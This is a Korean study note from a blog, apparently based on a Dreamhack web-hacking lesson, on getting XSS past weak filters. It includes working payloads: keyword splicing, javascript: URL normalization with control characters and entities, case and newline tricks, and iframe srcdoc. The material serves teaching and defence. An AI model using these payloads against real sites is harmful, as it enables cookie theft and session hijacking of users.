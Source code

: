 ```yaml
---
layout : single
title : "[Dreamhack] STAGE2. XSS Filtering Bypass (1)"
categories: web-hacking-advanced
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 문자열 치환 실습
- [x] 태그 기반 필터링 우회 실습

## Exploit Tech : XSS Filtering Bypass - 1

\* 강의에서 소개되는 필터링은 모두 잘못된 방식의 필터링이며, XSS 취약점을 근본적으로 제거하기 위해서는 태그 삽입이 되지 않도록 처음부터 원인을 제거해야한다

### 불충분한 XSS 필터링

HTML에는 별다른 규율 없이 정립된 규칙들이 쌓여 이를 해석하는 소프트웨어 작성에 어려움을 더했으며, HTML의 일부 기능을 비활성화하고자 하는 XSS 필터링 또한 이에 포함된다. HTML에서 js 코드를 실행하거나 페이지에 변형을 가하는 방법은 여러가지가 있으며, XSS 필터링은 이를 모두 막아야한다. 안전하지 않은 코드를 실행할 수 있는 방법은 계속 증가하고 있으므로, XSS 필터링은 안전하다고 알려진 마크업만 허용하는 보수적인 방법을 취해야한다. 일부 문자열만을 바탕으로 필터링을 진행하면 허위양성 또는 허위음성이 발생하여 필터링 자체가 제대로 이루어지지 못할 수 있다.

### 이벤트 핸들러 속성

js 코드를 실행할 수 있는 html 태그로는 script 이외에도 여러 가지 가 있다. 태그의 속성값으로 스크립트를 포함할 수 있는 경우가 다수 존재하며, 대표적으로 이벤트 핸들러를 지정하는 on으로 시작하는 속성들이 있다. (*이벤트 핸들러 : 특정 요소에서 발생하는 이벤트를 처리하기 위해 존재하는 콜백 형태의 핸들러 함수) 따라서 이 안에 XSS 공격 코드를 삽입해두면 해당 이벤트가 발생했을 때 XSS 공격 코드가 실행된다. 

대표적인 이벤트 핸들러 + [etc](https://developer.mozilla.org/ko/docs/Web/Events)

|Event handler|Description|
|:---|:---|
|onload|태그가 요청하는 데이터를 로드한 후 실행|
|onerror|태그가 요청하는 데이터를 로드하는 데 실패 시 실행|
|onfocus|input 태그에 커서를 클릭하여 focus 상태가 되면 실행<br>autofocus 속성을 사용해 자동으로 focus 시키거나, URL의 해시에 input 태그의 id 속성값을 입력하여 포커스되도록 함|

### 문자열 치환

XSS 키워드를 필터링할 때 의심되는 구문을 거부하는 대신 단순히 치환 / 제거하는 방식의 필터링 관습이 존재하며, 이러할 경우 "scr*script*ipt"와 같이 제거되는 키워드를 중간에 삽입하여 우회할 수 있다. 따라서, 필터링 자체가 무력화되며 웹 응용 방화벽에서 다음과 같은 공격 페이로드를 탐지하지 못한다.

```javascript
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```

이에 대한 대안으로, 다음과 같이 문자열에 변화가 없을 때까지 치환을 진행하는 방식이 사용되기도 하지만, 특정 키워드가 최종 마크업에 등장하지 않도록 하는 데에는 효과적이지만 고려하지 못한 구문의 방어와 WAF 방어 무력화 등은 동일하다

```javascript
function replaceIterate(text) {
    while (true) {
        var newText = text
            .replace(/script|onerror/gi, '');
        if (newText === text) break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;script&gt;parent.alert(1)&lt;/script&gt;" />
```

### 활성 하이퍼링크

HTML 마크업에서 사용되는 URL들은 활성 콘텐츠를 포함할 수 있다. 이 중 javascript: 스키마에는 URL 로드 시 자바스크립느 코드를 실행할 수 있도록 하며, 다음 코드와 같이 URL을 속성값으로 받는 a 태그나 iframe 태그 등에 사용할 수 있다. 이 때문에 XSS 키워드를 필터링할 때, javascript: 스키마를 사용하지 못하도록 필터링 하는 경우가 존재한다.

```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```

이러한 경우에는 브라우저들이 URL을 사용할 때 거치는 과정 중 하나인 정규화를 이용해 우회할 수 있는 경우가 존재하는데, 정규화는 동일한 리소스를 나타내는 서로 다른 URL을 통일된 형태로 변환하는 과정으로, \x01, \x04와 같은 특수문자들이 제거되고, 스키마의 대소문자가 통일된다. 

```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```

태그의 속성 내에서 HTML Entity Encoding을 사용하면 javascript: 스키미나 이외의 XSS 키워드를 인코딩하여 필터링을 우회하는 경우가 존재한다. 아래는 이를 통한 우회 예시이다.

```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

js 에서는 URL 객체를 통해 URL을 직접 정규화할 수 있으며, protocol, hostname 등 URL의 각종 정보를 추출할 수 있다. XSS 필터링 우회 공격 구문을 작성하기 위해 직접 URL을 정규화하며 테스트하는 것이 가능하다

```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)')
--> "javascript:alert"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

### 태그와 속성 기반 필터링

단순히 태그나 속성을 바탕으로 필터링을 하게 되면 우회가 간으한 경우가 많다

1) 대문자 혹은 소문자만을 인식하는 필터 우회

```javascript
x => !x.includes('script') && !x.includes('on')
```

위와 같이 특정 키워드의 대소문자를 모두 검사하지 않을 경우, 다음과 같이 이를 우회할 수 있다

```html
<sCRipT>alert(document.cookie)</scriPT>
<img src=x: oneRroR=alert(document.cookie) />
```

---

2) 잘못된 정규표현식을 사용한 필터 우회

일반적으로 키워드를 필터링할 때에는 정규표현식을 이용하는데, 이에 문제가 있는 경우 정규표현식을 만족하면서 XSS 공격 구문을 삽입하는 것이 가능하다. 

다음과 스크립트 태그 내에 데이터가 존재하는 지 검사하는 정규표현식의 경우, src 속성을 통해 데이터를 입력하는 방식을 통하여 우회가 가능하다.

```javascript
x => !/<script[^>]*>[^<]/i.test(x)
```

```html
<script src="data:,alert(document.cookie)"></script>
```

또한 , 다음과 같이 img 태그에 on 이벤트 핸들러가 존재하는 지 검사하는 정규표현식의 경우, 멀티라인에 대한 검사가 존재하지 않기 때문에 줄바꿈문자를 이용해 우회할 수 있다.

```javascript
x => !/<img.*on/i.test(x)
```

```html
<img src=""\nonerror="alert(document.cookie)"/>
```

### 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회

HTML에는 굉장히 다양한 종류의 태그와 속성이 존재하므로, XSS 공격에 보편적으로 사용하는 script, img, input과 같은 태그를 필터링한다고 모든 공격을 막을 수 없다. 

다음과 같이 script, img, input 태그를 사용하지 못하도록 하는 필터링의 경우, 다른 태그를 사용해 공격을 시도할 수 있다.

```javascript
x => !/<script|<img|<input/i.test(x)
```

```html
<video><source onerror="alert(document.domain)"/></video>
<body onload="alert(document.domain)"/>
```

또한, 이와 같이 이벤트 핸들러와 멀티라인을 지원하는 문자까지 필터링하는 경우, iframe을 이용해 우회할 수 있다. iframe의 src는 URL을 인자로 받기에, 활성 하이퍼링크를 이용해 자바스크립트 코드를 삽입할 수 있으며, srcdoc 속성을 이용하여 inner frame 내에 새로운 공격 코드를 입력하는 것이 가능하다. 이 때 HTML Entity Encoding으로 기존 필터링을 우회할 수 있다

```javascript
x => !/<script|<img|<input|<.*on/is.test(x)
```

```html
<iframe src="javascript:alert(parent.document.domain)">
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```
